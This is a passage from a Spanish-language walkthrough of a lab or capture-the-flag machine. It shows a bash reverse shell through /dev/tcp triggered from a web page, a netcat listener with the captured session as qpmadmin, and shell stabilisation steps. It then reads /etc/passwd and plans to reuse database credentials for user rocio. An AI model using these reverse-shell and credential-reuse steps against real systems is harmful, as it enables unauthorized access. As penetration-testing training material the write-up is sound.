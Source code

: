 ```shell
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Ahora desde la maquina `host` haremos lo siguiente:

```shell
nc -lvnp <PORT>
```

Ahora si enviamos dicho comando desde la pagina web y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.4] from (UNKNOWN) [192.168.5.32] 41042
qpmadmin@bah:~$ whoami
whoami
qpmadmin
```

Vemos que ha funcionado, por lo que sanitizaremos la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user rocio

Si recordamos antes, vimos credenciales en la `DDBB` de `MySQL` vamos a probarlas con el usuario `rocio` ya que es el unico que vemos que este en el sistema.

```shell
cat /etc/passwd | grep "/bin/bash"
```

Info:

```
root:x:0:0:root:/root:/bin/bash
rocio:x:1000:1000:rocio,,,:/home/rocio:/bin/bash
qpmadmin:x:1001:1001:,,,:/home/qpmadmin:/bin/bash
```
